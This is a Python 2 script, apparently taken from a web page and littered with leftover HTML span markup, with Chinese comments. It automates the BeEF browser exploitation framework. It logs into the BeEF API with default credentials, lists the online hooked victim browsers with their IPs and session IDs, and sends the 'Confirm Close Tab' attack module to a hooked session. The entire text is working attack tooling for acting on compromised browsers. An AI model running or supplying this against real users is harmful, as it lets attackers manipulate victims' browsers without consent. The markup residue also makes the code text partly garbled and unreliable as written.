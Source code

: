 hostlist = []
hostdict = {}

<span nodeIndex="675">def</span> getauthkey(host):
    apiurl =  host + <span nodeIndex="676">"</span><span nodeIndex="677">api/admin/login</span><span nodeIndex="678">"</span>
    logindata = {
        <span nodeIndex="679">"</span><span nodeIndex="680">username</span><span nodeIndex="681">"</span>:<span nodeIndex="682">"</span><span nodeIndex="683">beef</span><span nodeIndex="684">"</span>,
        <span nodeIndex="685">"</span><span nodeIndex="686">password</span><span nodeIndex="687">"</span>:<span nodeIndex="688">"</span><span nodeIndex="689">beef</span><span nodeIndex="690">"</span>
    }
    jdata = json.dumps(logindata)             <span nodeIndex="691">#</span><span nodeIndex="692"> 对数据进行JSON格式化编码</span>
    req = urllib2.Request(apiurl, jdata)      <span nodeIndex="693">#</span><span nodeIndex="694"> 生成页面请求的完整数据</span>
    response = urllib2.urlopen(req)           <span nodeIndex="695">#</span><span nodeIndex="696"> 发送页面请求</span>
    resdata = response.read()                 <span nodeIndex="697">#</span><span nodeIndex="698"> 获取服务器返回的页面信息，数据类型为str</span>
    jsondata =  json.loads(resdata)           <span nodeIndex="699">#</span><span nodeIndex="700"> 把数据解析成python对象，此时返回dict数据</span>
    <span nodeIndex="701">return</span> jsondata[<span nodeIndex="702">'</span><span nodeIndex="703">token</span><span nodeIndex="704">'</span>]

<span nodeIndex="705">def</span> getHookedBrowsersSession(host,authkey):
    f = urllib2.urlopen(host + <span nodeIndex="706">"</span><span nodeIndex="707">/api/hooks?token=</span><span nodeIndex="708">"</span> + authkey)
    data = json.loads(f.read())
    hookonline = data[<span nodeIndex="709">'</span><span nodeIndex="710">hooked-browsers</span><span nodeIndex="711">'</span>][<span nodeIndex="712">'</span><span nodeIndex="713">online</span><span nodeIndex="714">'</span>]
    <span nodeIndex="715">for</span> x <span nodeIndex="716">in</span> hookonline:
        hookid = hookonline[x][<span nodeIndex="717">'</span><span nodeIndex="718">id</span><span nodeIndex="719">'</span>]
        hookip = hookonline[x][<span nodeIndex="720">'</span><span nodeIndex="721">ip</span><span nodeIndex="722">'</span>]
        hooksession = hookonline[x][<span nodeIndex="723">'</span><span nodeIndex="724">session</span><span nodeIndex="725">'</span>]
        <span nodeIndex="726">if</span> hookid <span nodeIndex="727">not</span> <span nodeIndex="728">in</span> hostdict:
            hostdict[hookid] = hooksession
            <span nodeIndex="729">print</span> <span nodeIndex="730">"</span><span nodeIndex="731">\n[+] Hooked host id:  </span><span nodeIndex="732">"</span> + bytes(hookid) + <span nodeIndex="733">"</span><span nodeIndex="734">\n   >>> IP: </span><span nodeIndex="735">"</span> + bytes(hookip) + <span nodeIndex="736">"</span><span nodeIndex="737">\n   >>> Session: </span><span nodeIndex="738">"</span> + hooksession

<span nodeIndex="739">def</span> sendConfirm(host, session, authkey):
    postdata = <span nodeIndex="740">'</span><span nodeIndex="741">{}</span><span nodeIndex="742">'</span>
    url = host + <span nodeIndex="743">"</span><span nodeIndex="744">api/modules/</span><span nodeIndex="745">"</span> + session + <span nodeIndex="746">"</span><span nodeIndex="747">/177?token=</span><span nodeIndex="748">"</span> + authkey
    <span nodeIndex="749">#</span><span nodeIndex="750">print url</span>
    req = urllib2.Request(url, postdata)
    req.add_header(<span nodeIndex="751">"</span><span nodeIndex="752">Content-Type</span><span nodeIndex="753">"</span>, <span nodeIndex="754">"</span><span nodeIndex="755">application/json; charset=UTF-8</span><span nodeIndex="756">"</span>)
    f = urllib2.urlopen(req)
    <span nodeIndex="757">print</span> <span nodeIndex="758">"</span><span nodeIndex="759">   >>> [+] Module Confirm Close Tab has been Executed ! </span><span nodeIndex="760">"</span>
    <span nodeIndex="761">return</span> f.read()
